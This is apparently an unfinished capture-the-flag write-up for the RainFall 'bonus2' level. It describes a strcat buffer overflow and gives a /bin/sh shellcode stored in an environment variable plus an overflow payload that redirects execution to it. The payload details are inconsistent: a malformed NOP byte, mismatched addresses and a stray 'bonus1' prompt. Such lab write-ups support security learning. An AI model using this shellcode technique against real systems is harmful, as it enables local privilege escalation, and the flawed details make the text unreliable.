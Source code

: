 ## Flag Bonus2 README: Finding Flag Bonus2

After connection on our vm with:
```bash
ssh bonus2@localhost -p 4343
```

We found a binary named bonus2. When we run it we obtain:
```sh
bonus2@RainFall:~$ ./bonus2 
Segmentation fault (core dumped)
bonus2@RainFall:~$
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), there is `main` and `greetuser`.
greatuser doest somthing easy, it just write specyfic message regarding the value of language into dest and add the first arg into the string then it writes it on STDOUT with puts.
Main is just for seeking the langage of the user.

So, our plan is to use `strcat` ofr a `buffer overflow` to redirect the execute to our `environnement variable` which contain our `shellcode`.

Okay, as always, we have our receipe, now let's cook.

First let's create our `env variable`.

```sh
bonus1@RainFall:~$ export shellcode="`python -c 'print("\90x"*50 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`"
```

Next, we need to find the address of this variable.
For this we use our small [program](./env_variable_finder.c) for this step.
In this one, the address is: `0xbffffe57`.






./bonus2 $(python -c 'print("aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09" + " " + "\x90"*18 + "\x01\xff\xff\xbf")') 

need to add shellcode into ENV variable.

